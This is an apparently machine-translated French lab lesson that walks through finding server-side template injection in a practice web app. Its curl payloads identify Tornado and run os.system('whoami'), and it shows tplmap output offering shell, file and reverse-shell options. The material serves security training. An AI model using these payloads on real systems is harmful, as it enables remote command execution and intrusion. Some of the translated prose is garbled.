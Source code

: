 Exemple d'exploitation SSTI 2
=============================

* * * * *

Supposons que nous soyons chargés de tester une autre application accessible sur Internet. Notre objectif sera d'identifier si l'application est vulnérable à l'injection de modèle côté serveur.

Accédez à la fin de cette section et cliquez sur `Click here to spawn the target system!`, puis utilisez la Pwnbox fournie ou une VM locale pour suivre. Si vous parcourez la cible, vous devriez tomber sur l'application ci-dessous.

![image](https://academy.hackthebox.com/storage/modules/145/img/tornado1.png)

Si vous inspectez le trafic de l'application à l'aide des outils de développement Web de Firefox ( `[Ctrl]`++ ), vous remarquerez que l'entrée de l'utilisateur est soumise dans un paramètre appelé et via une requête POST `[Shift]`à`[I]``email``http://<TARGET IP>:<PORT>/jointheteam`

Soumettons des expressions mathématiques entre accolades dans le champ de saisie, telles que celles mentionnées dans la `SSTI Identification`section, en commençant par `${7*7}`, comme le suggère le diagramme de PortSwigger.

#### cURL - Interagir avec la cible

  cURL - Interagir avec la cible

```
dsgsec@htb[/htb]$ curl -X POST -d 'email=${7*7}' http://<TARGET IP>:<PORT>/jointheteam

<html>
<head>
<style>
form {
margin: 0 auto;
width: 200;
}
</style>
</head>
<body>
<h1 style="text-align: center;">~ Damn Hackers ~</h1>
<h2 style="text-align: center;">Gentlemen, we can rebuild it <br />We have the technology <br />We have the capability to make the worlds first bionic website<br />Better than it was before <br />Better, Stronger, Faster.</h2>
<h2 style="text-align: center;"><em>Great!</em></h2>
<h3 style="text-align: center;"><em>Email ${7*7} has been subscribed. You&#39;ll hear from us soon!</em></h3>
</body>

```

Il ne semble pas que l'application ait évalué l'expression soumise. Essayons`{{7*7}}`

#### cURL - Interagir avec la cible

  cURL - Interagir avec la cible

```
dsgsec@htb[/htb]$ curl -X POST -d 'email={{7*7}}' http://<TARGET IP>:<PORT>/jointheteam

<html>
<head>
<style>
form {
margin: 0 auto;
width: 200;
}
</style>
</head>
<body>
<h1 style="text-align: center;">~ Damn Hackers ~</h1>
<h2 style="text-align: center;">Gentlemen, we can rebuild it <br />We have the technology <br />We have the capability to make the worlds first bionic website<br />Better than it was before <br />Better, Stronger, Faster.</h2>
<h2 style="text-align: center;"><em>Great!</em></h2>
<h3 style="text-align: center;"><em>Email 49 has been subscribed. You&#39;ll hear from us soon!</em></h3>
</body>

```

L'application a évalué l'expression soumise cette fois. Continuons, comme le suggère le diagramme de PortSwigger, à identifier le moteur de template sous-jacent.

#### cURL - Interagir avec la cible

  cURL - Interagir avec la cible

```
dsgsec@htb[/htb]$ curl -X POST -d 'email={{7*'7'}}' http://<TARGET IP>:<PORT>/jointheteam

<html>
<head>
<style>
form {
margin: 0 auto;
width: 200;
}
</style>
</head>
<body>
<h1 style="text-align: center;">~ Damn Hackers ~</h1>
<h2 style="text-align: center;">Gentlemen, we can rebuild it <br />We have the technology <br />We have the capability to make the worlds first bionic website<br />Better than it was before <br />Better, Stronger, Faster.</h2>
<h2 style="text-align: center;"><em>Great!</em></h2>
<h3 style="text-align: center;"><em>Email 49 has been subscribed. You&#39;ll hear from us soon!</em></h3>
</body>

```

L'application a évalué la dernière expression que nous avons soumise. Donc, d'après le diagramme, nous devrions avoir affaire à un moteur de template Twig ou Jinja2, n'est-ce pas ?

Malheureusement, ce n'est pas le cas! Si nous soumettons une charge utile spécifique à Twig ou Jinja2, l'application renvoie `500: Internal Server Error`. Trouvez quelques exemples de ce comportement ci-dessous.

  cURL - Interagir avec la cible

```
dsgsec@htb[/htb]$ curl -X POST -d 'email={{_self.env.display("TEST"}}' http://<TARGET IP>:<PORT>/jointheteam

<html><title>500: Internal Server Error</title><body>500: Internal Server Error</body></html>

```

  cURL - Interagir avec la cible

```
dsgsec@htb[/htb]$ curl -X POST -d 'email={{config.items()}}' http://<TARGET IP>:<PORT>/jointheteam

<html><title>500: Internal Server Error</title><body>500: Internal Server Error</body></html>

```

  cURL - Interagir avec la cible

```
dsgsec@htb[/htb]$ curl -X POST -d 'email={{ [].class.base.subclasses() }}' http://<TARGET IP>:<PORT>/jointheteam

<html><title>500: Internal Server Error</title><body>500: Internal Server Error</body></html>

```

Les charges utiles que nous avons utilisées (et plus) peuvent être trouvées sur [PayloadsAllTheThings - Template Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2) and [HackTricks- SSTI (Server Side Template Injection)](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

Cela devrait être simple maintenant qu'aucune méthodologie n'est à l'épreuve des balles. Nous pourrions compiler une liste de charges utiles spécifiques au moteur de modèle à partir des ressources susmentionnées et fuzzer l'application jusqu'à ce que nous concluions sur le moteur de modèle utilisé.

Finalement, lors de la soumission de charges utiles spécifiques [à Tornado](https://www.tornadoweb.org/en/stable/guide/templates.html) , nous rencontrerons ce qui suit.

  cURL - Interagir avec la cible

```
dsgsec@htb[/htb]$ curl -X POST -d "email={% import os %}{{os.system('whoami')}}" http://<TARGET IP>:<PORT>/jointheteam

<html>
<head>
<style>
form {
margin: 0 auto;
width: 200;
}
</style>
</head>
<body>
<h1 style="text-align: center;">~ Damn Hackers ~</h1>
<h2 style="text-align: center;">Gentlemen, we can rebuild it <br />We have the technology <br />We have the capability to make the worlds first bionic website<br />Better than it was before <br />Better, Stronger, Faster.</h2>
<h2 style="text-align: center;"><em>Great!</em></h2>
<h3 style="text-align: center;"><em>Email 0 has been subscribed. You&#39;ll hear from us soon!</em></h3>
</body>

```

Il semble que nous l'ayons enfin compris ! Tornado est utilisé sur le backend.

Comme déjà mentionné dans les sections précédentes, `tplmap`peut être utilisé pour automatiser à la fois l'identification du moteur de modèle et le processus d'exploitation.

#### tplmap.py

  tplmap.py

```
dsgsec@htb[/htb]$ ./tplmap.py -u 'http://<TARGET IP>:<PORT>/jointheteam' -d email=blah

    Automatic Server-Side Template Injection Detection and Exploitation Tool

[+] Testing if POST parameter 'email' is injectable
[+] Smarty plugin is testing rendering with tag '*'
[+] Smarty plugin is testing blind injection
[+] Mako plugin is testing rendering with tag '${*}'
[+] Mako plugin is testing blind injection
[+] Python plugin is testing rendering with tag 'str(*)'
[+] Python plugin is testing blind injection
[+] Tornado plugin is testing rendering with tag '{{*}}'
[+] Tornado plugin has confirmed injection with tag '{{*}}'
[+] Tplmap identified the following injection point:

  POST parameter: email
  Engine: Tornado
  Injection: {{*}}
  Context: text
  OS: posix-linux
  Technique: render
  Capabilities:

   Shell command execution: ok
   Bind and reverse shell: ok
   File write: ok
   File read: ok
   Code evaluation: ok, python code

[+] Rerun tplmap providing one of the following options:

    --os-shell				Run shell on the target
    --os-cmd				Execute shell commands
    --bind-shell PORT			Connect to a shell bind to a target port
    --reverse-shell HOST PORT	Send a shell back to the attacker's port
    --upload LOCAL REMOTE	Upload files to the server
    --download REMOTE LOCAL	Download remote files

```

Maintenant, passez à l'exercice de cette section et complétez l'objectif soit en fabriquant vous-même la charge utile, soit à l'aide d'un obus obtenu à l'aide de `tplmap`.
